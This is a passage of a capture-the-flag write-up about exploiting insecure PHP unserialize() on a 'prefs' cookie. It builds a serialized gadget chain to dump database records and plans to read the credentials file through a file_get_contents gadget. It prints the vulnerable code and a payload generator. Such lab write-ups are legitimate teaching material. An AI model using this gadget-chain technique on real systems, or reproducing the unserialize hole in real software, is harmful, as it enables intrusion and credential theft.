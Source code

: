 The `getAllAlbums()` method will take the `store` attribute to invoke `getAllRecords()` method. So basically the `store` attribute is classes from `src/Records.php`, like class `MysqlRecordStore`.

**And uhh... What does that `__debugInfo()` magic method do?**

> This method is called by [`var_dump()`](https://www.php.net/manual/en/function.var-dump.php) when dumping an object to get the properties that should be shown. If the method isn't defined on an object, then all public, protected and private properties will be shown. (From [https://www.php.net/manual/en/language.oop5.magic.php#object.debuginfo](https://www.php.net/manual/en/language.oop5.magic.php#object.debuginfo))

**Ah ha! `var_dump()` in `src/index.php`!**
```php
if (isset($_COOKIE['prefs'])) {
    $prefs = unserialize($_COOKIE['prefs']);
    if (!($prefs instanceof UserPrefs)) {
        echo "Unrecognized data: ";
        var_dump($prefs);
        exit;
    }
} else {
    [...]
```

Hence, **we need to purposefully `unserialize()` our `prefs` cookie without being the instance of class `UserPrefs`!**

**Now, before we generate a custom gadget chain, we're missing something:**
```php
$getFlag = new Albums(new MysqlRecordStore("host???", "username???", "password???", "database_name???", "flag"));
$serializedgetFlag = urlencode(serialize($getFlag));
echo "[+] Serialized get flag: $serializedgetFlag\n";
```

**In `src/db_creds.php`, we can see MySQL configuration:**
```php
<?php

$mysql_host = 'mysql';
$mysql_database = 'challenge';
$mysql_user = 'user';
$mysql_password = 'yeah_im_different';
```

> Note: The `$mysql_password` will be different on the challenge machine, the above one is for local testing.

Umm... Can we leak those configuration?

After poking around at the `src/Records.php`, we can see there's a method is interesting to us.

**In class `JsonRecordStore`, it initializes an attribute called `file`:**
```php
class JsonRecordStore implements RecordStore
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }
    [...]
    public function getAllRecords() {
        $data = json_decode(file_get_contents($this->file), true);
        $records = array();
        foreach ($data as $id => $row) {
            $record = new Record($id);
            foreach ($row as $key => $value) {
                $record->$key = $value;
```